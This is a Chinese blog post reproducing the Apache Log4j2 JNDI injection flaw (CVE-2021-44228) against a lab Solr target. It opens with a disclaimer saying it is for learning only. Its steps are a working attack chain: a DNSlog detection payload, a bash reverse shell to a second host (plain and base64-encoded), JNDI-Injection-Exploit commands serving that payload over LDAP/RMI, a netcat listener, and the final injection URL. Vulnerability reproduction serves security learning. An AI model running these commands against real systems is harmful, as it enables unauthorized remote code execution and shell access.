








# 【漏洞复现】Apache log4j2[CVE-2021-44228] - gloves7 - 博客园

> 原文：[`www.cnblogs.com/gloves7/p/17622002.html`](https://www.cnblogs.com/gloves7/p/17622002.html)

**仅供技术学习和参考交流，请勿用于违法行为！！！！！！**

本文对 Apache log4j2（CVE-2021-44228)进行漏洞复现，Apache Log4j2 是一个基于 Java 的日志记录工具，2021 年 12 月 9 日爆出 Log4j2 组件在处理程序日志记录时存在 JNDI 注入漏洞,掀起了不小风浪。

工具：

*   攻击机：win10 笔记本 192.168.64.1
*   靶机：vulhub 192.168.64.170
*   模拟 VPS：win10 192.168.64.149

软件工具：

*   Burpsuite
*   JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar 
*   vmware
*   netcat

本次采用的靶场是自己在 CentOS7 上搭建的 vulhub 靶机，需要使用 docker 启动，需要的同学自行安装。

vulhub 下载:https://github.com/vulhub/vulhub 

JNDI-Injection-Exploit 下载:https://github.com/welk1n/JNDI-Injection-Exploit  //需要自己编译 jar 包

漏洞复现过程:

1.打开靶机,启动靶场,靶场端口为 8983。

 2.使用攻击机浏览器访问靶场地址 http://192.168.64.170:8983

 3.查看各功能，发现 Add Core 页面有添加功能，猜想应该可以传参

 4.打开 burpsuite 代理，点击 add core 进行抓包

 抓包看到确实有传参，这里应该是注入点。并发现 url 为：/solr/admin/core  打开浏览器访问此 url。

5.因为这个漏洞没有回显，所以要检测其漏洞是否存在，需要借助 dnslog 来查看是否有回显。

doslog 地址：[`www.dnslog.cn/`](http://dnslog.cn/) dnslog 是一个免费 dns 解析记录网。我们通过获取一个随机域名，然后构造一个 payload 让靶机去解析该域名，如果解析成功，dnslog 就会记录下其 IP。

 6.构造 payload：payload=${jndi:ldap://dnslog 域名}，并使用 hackbar 发送 payload。

 返回 dnslog,看样看到解析记录，说明存在该漏洞。

 7.打开模拟的 VPS，这里使用 VMware 的虚拟机模拟公网 VPS。

*   构造反弹 sehll 命令：

　　　　bash -i >&/dev/tcp/IP 地址/监听端口 0>&1

*   使用 JNDI-Injection-Exploit-1.0-SNAPSHOT-all 工具开启 ldap 和 rmi 监听服务

　　　　java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,base64 编码后的反弹 shell}|{base64,-d}|{bash,-i}" -A VPS 地址

例如，本次实验 VPS 的 IP 地址为 192.168.64.149，使用的监听端口为 23456。则

　　反弹 shell:  bash -i >&/dev/tcp/192.168.64.149/23456 0>&1

　　base64 编码为：YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguNjQuMTQ5LzIzNDU2IDA+JjE=

　　执行命令：java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguNjQuMTQ5LzIzNDU2IDA+JjE=}|{base64,-d}|{bash,-i}" -A 192.168.64.149

8.VPS 打开 CMD，使用 nc 监听 23456 端口

命令：nc -lvnp 23456

 在 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar 目录下打开一个 CMD 窗口，执行

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguNjQuMTQ5LzIzNDU2IDA+JjE=}|{base64,-d}|{bash,-i}" -A 192.168.64.149

 生成的 rmi 和 ldap 则可以用于 payload 构造。

9.返回攻击机，使用 hackbar 发送 playload。

http://192.168.64.170:8983/solr/admin/cores?payload=${jndi:ldap://192.168.64.149:1389/dr1ohm}

10.在 VPS 上成功反弹 shell。

